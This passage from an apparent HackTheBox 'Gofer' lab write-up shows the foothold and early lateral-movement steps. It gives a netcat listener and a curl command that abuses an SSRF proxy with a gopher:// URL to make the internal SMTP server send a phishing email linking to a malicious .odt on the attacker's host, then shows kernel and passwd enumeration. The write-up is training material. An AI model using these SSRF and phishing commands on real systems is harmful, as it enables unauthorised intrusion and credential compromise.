 ```bash
nc -nlvp 9999
```

**3-** Execute the `cURL` command (Generated from the PHP script above): <br/>

```bash
curl -X POST 'http://proxy.gofer.htb/index.php?url=gopher://2130706433:25/_MAIL+FROM%3A+%3Croot%40gofer.htb%3E%250ARCPT+TO%3A+%3Cjhudson%40gofer.htb%3E%250ADATA%250ASubject%3A+Important+mail%250AClick+on+this+link%3A+http%3A%2F%2F10.10.14.20%2Fphish.odt+for+more+info%250A.'
```

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-gofer/2023-08-01 14_19_36-KaliLinuxOS - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Exploitation Process and Foothold</i></center>
<br/>

# **<strong><font color="Brown">Lateral Movement</font></strong>**

***
## **<strong><font color="DarkCyan">Enumeration</font></strong>**
### **<strong><font color="DarkKhaki">Manual Enumeration</font></strong>**

* The target machine is running Linux version **5.10.0**:
```bash
jhudson@gofer:~$ uname -a
Linux version 5.10.0-23-amd64 (debian-kernel@lists.debian.org) (gcc-10 (Debian 10.2.1-6)
```

* The user `jhudson` may not run sudo on the system.
* There are 5 users with console:
```bash
ablake:x:1003:1003::/home/ablake:/bin/bash
jdavis:x:1001:1001::/home/jdavis:/bin/bash
jhudson:x:1000:1000:Jocelyn Hudson,,,:/home/jhudson:/bin/bash
root:x:0:0:root:/root:/bin/bash
tbuckley:x:1002:1002::/home/tbuckley:/bin/bash
```
